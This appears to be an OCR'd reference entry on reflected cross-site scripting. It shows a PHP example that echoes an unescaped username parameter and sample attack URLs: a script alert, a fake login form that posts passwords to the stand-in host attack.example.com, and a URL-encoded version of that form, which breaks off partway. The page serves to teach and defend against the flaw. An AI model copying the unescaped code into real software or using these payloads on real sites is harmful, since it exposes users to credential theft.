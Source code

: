 
Likelihood Of Exploit: High


Demonstrative Examples


```php
// Example 1
// This code displays a welcome message on a web page based on the HTTP GET username parameter. This example covers a Reflected XSS (Type 1) scenario.
// Example Language: PHP 

$username = $_GET['username'];  
echo '<div class="header"> Welcome, ' . $username . '</div>';

// Because the parameter can be arbitrary, the url of the page could be modified so $username contains scripting syntax, such as

(attack code)
http://trustedSite.example.com/welcome.php?username=<Script Language="Javascript">alert("You've been attacked!");</Script>

// This results in a harmless alert dialogue popping up. Initially this might not appear to be much of a vulnerability. After all, why would someone enter a URL that causes malicious code to run on their own computer?
// The real danger is that an attacker will create the malicious URL, then use e-mail or social engineering tricks to lure victims into visiting a link to the URL. When victims click the link, they unwittingly reflect the malicious content through the vulnerable web application back to their own computers.


// More realistically, the attacker can embed a fake login box on the page, tricking the user into sending the user's password to the attacker:

(attack code)
http://trustedSite.example.com/welcome.php?username=<div id="stealPassword">Please Login:<form name="input" action="http://attack.example.com/stealPassword.php" method="post">Username: <input type="text" name="username" /><br/>Password: <input type="password" name="password" /><br/><input type="submit" value="Login" /></form></div>

// If a user clicks on this link then Welcome.php will generate the following HTML and send it to the user's browser:

// (result)

<div class="header"> Welcome,
	<div id="stealPassword"> Please Login:
	<form name="input" action="attack.example.com/stealPassword.php" method="post">
		Username: <input type="text" name="username" /><br/>  
		Password: <input type="password" name="password" /><br/>  
		<input type="submit" value="Login" />
	</form>
	</div>
</div>

// The trustworthy domain of the URL may falsely assure the user that it is OK to follow the link. However, an astute user may notice the suspicious text appended to the URL. An attacker may further obfuscate the URL (the following example links are broken into multiple lines for readability):

(attack code)

trustedSite.example.com/welcome.php?username=%3Cdiv+id%3D%22  
stealPassword%22%3EPlease+Login%3A%3Cform+name%3D%22input  
%22+action%3D%22http%3A%2F%2Fattack.example.com%2FstealPassword.php  
%22+method%3D%22post%22%3EUsername%3A+%3Cinput+type%3D%22text  
```